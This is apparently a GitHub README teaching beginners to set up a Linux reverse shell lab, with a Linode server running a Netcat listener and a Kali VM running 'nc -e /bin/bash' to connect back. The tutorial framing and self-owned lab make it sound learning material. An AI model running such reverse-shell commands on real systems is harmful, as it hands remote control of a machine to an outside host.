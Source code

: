 <h2><p align="center">Reverse Shell</h2>

<h3><p align="center">*ONLY FOR EDUCATIONAL PURPOSES ONLY*</h3>

<h4><p align="center">Welcome! This repository is your gateway to understanding reverse shells on Linux. If you're new to cybersecurity or curious about remote access methods, you're in the right place. We'll explain reverse shells in simple terms, empowering you to navigate this crucial aspect of digital security with confidence. For this lesson, I will be referring to NetworkChuck's video on how setup a Cloud enviroment for the attacking machine and our target machine. After this lesson, you will understand the importance and reason behind reverse shells. </h4>

[Video](https://www.youtube.com/watch?v=bXCeFPNWjsM&t=267s)
***


<h3>What are Reverse Shell's?</h3>

Reverse shells are a type of shell session where a target machine connects back to an attacker's machine, rather than the other way around. This is typically used in scenario's where the target machine is behind a firewall or NAT and cannot accept incoming connections.

<p align="center">
<img src="https://i.imgur.com/XrJlchM.png" alt="Login"/>
</p>

Here is a Step-by-Step on how it works
1. The **attacker** compromises the **target** machine and injects code that establishes a connection to a remote system controlled by the **attacker**.
2. Once that connection has established, the **attacker** can now gain access thru the shell on the **target** machine. This allows them to execute commands and interact with the system as if it had physical access to it.
3. This connection is typically encrypted to prevent detection and interception by security measures.

In this lab, we'll also explore the use of Netcat for creating reverse shells. Netcat (a hackers swiss army knife), a versatile networking tool, acts like a direct line between computers. Think of it as setting up a secret phone call where the target computer calls back to the attacker's system. This enables hackers to gain remote access and control over the target, just like having a direct line to the computer's command center.

***

<h4><p align="center"><u>Tools you'll need</u></h4>

1. A computer for **target** machine
2. Cloud enviroment for **attacking** machine (*I will be using Linode, if you create an account right now and verify, you will get $100 credit to use*)

<p align="center">
<img src="https://i.imgur.com/mqhC9Sv.png" alt="Login"/>
</p>
   
4. [Virtual Box](https://www.virtualbox.org/wiki/Downloads) (*I will be using KaliLinux*)

<p align="center">
<img src="https://i.imgur.com/O0tsgnK.png" alt="Login"/>
</p>
 
5. Eagerness to learn!

***

<h4><u>Starting with Linode</u></h4>

<i><p align="center">Once you've created your Linode account and received the free $100 credit post-verification, this is how you will set it up.</i>

You will navigate to the top left of the page and look for "Create". Click on the drop down arrow next to it and select "Linode" -> For the distribution, click on "Ubuntu 18.04 LTS" -> Click on the nearest region next to you after that -> click on "Shared CPU" which is under the Linode plan section -> Click on the "Nanode 1GB" option (*Should read with a $5 Monthly charge*) -> After selection, name your Linode and set Root Password -> Then click "Create". 

Once you've setup your Linode, look at the top right underneath the name of the Linode and wait for it to say "Running" with a green circle next to it. This will confirm that your cloud enviroment is now stable and active to run.

<u><h4>Time to Login</h4></u>

*<i><p align="center">Now that we have our Linode setup, its time to login into the enviroment.</i>*

!. Look for your SSH Access and copy it. *(Look at the right side of the top portion of the Linode page and look for Access -> SSH Access)*
2. Open Command Prompt and type in this following command.
```bash
# Command to copy
ssh root@"fill in with your SSH Access"
```
3. Once you've entered the command line and press enter, it will prompt with "Are you sure you want to continue connecting?". Type "yes", then type your Root password. Then VIOLA! you're connected.

*<i><p align="center">Now lets understand NetCat</i>*

<p align="center">
<img src="https://i.imgur.com/X2sDSwc.png" alt="Login"/>
</p>

1. To go ahead and first check if NetCat is installed, type in the command line "nc"
 ```bash
# Command to copy
nc
```
2. Now going forward, since we are using NetCat to reverse shell, we have to make sure both clients both have NetCat installed. In this matter, since both are Linux machines, they both already come with NetCat installed.
3. Now we are going to use this command to see if it is listening.When picking the port, use a port # that is below 1000. L = Listen, N = IP Address Only, V = Verbose, P = Port
 ```bash
# Command to copy
nc -lvnp "port #" -s "Ip address from Linode"
```
Example: nc -lnvp 87 -s 192.168.1.1

4. Now once you've completed that part, it should prompt with a command line that is listening on that IP.

*<i><p align="center">Now let's set up the **target** machine in KaliLinux</i>*

<p align="center">
<img src="https://i.imgur.com/ctVa9B7.jpeg" alt="Login"/>
</p>

1. Open Kali Linux and click on the Terminal on the top right.
2. Type in this command
 ```bash
# Command to copy
nc -e /bin/bash "IP Address of Attacker/Cloud Machine"
```
3. Press enter and go back to Command Prompt Terminal. See what happens.
4. Try out some commands such as
 ```bash
# Command to copy
whoami   
```

 ```bash
# Command to copy
ls  
```

 ```bash
# Command to copy
uname -a  
```
<h3><p align="center">Overview of what we've learned!</h3>

<h4><p align="center">After you've completed this whole tutorial, mess around and see the benefits and powers of reverse shell. As powerful and cool it is, use it RESPONSIBLY. This lesson is for educational purposes and not inteded for malicious purposes. Ethical hacking is an amazing practice and helps you understand how to protect yourself more and more everyday.</h4>

*Remember, to not be charged by Linode:*

--> To remove a Linode from your account, click the Linodes tab, and then select the Remove link next to the Linode you want to remove.

--> To remove extras from your account, click the Linodes tab, select a Linode, click the Extras tab, and then select the Remove link.

--> To remove a NodeBalancer from your account, click the NodeBalancers tab, and then select the Remove link next to the NodeBalancer you want to remove.

--> To remove the Linode Backup Service, go to the Backups tab in your Linode’s Dashboard, and click the Cancel Backups link at the bottom of the page.
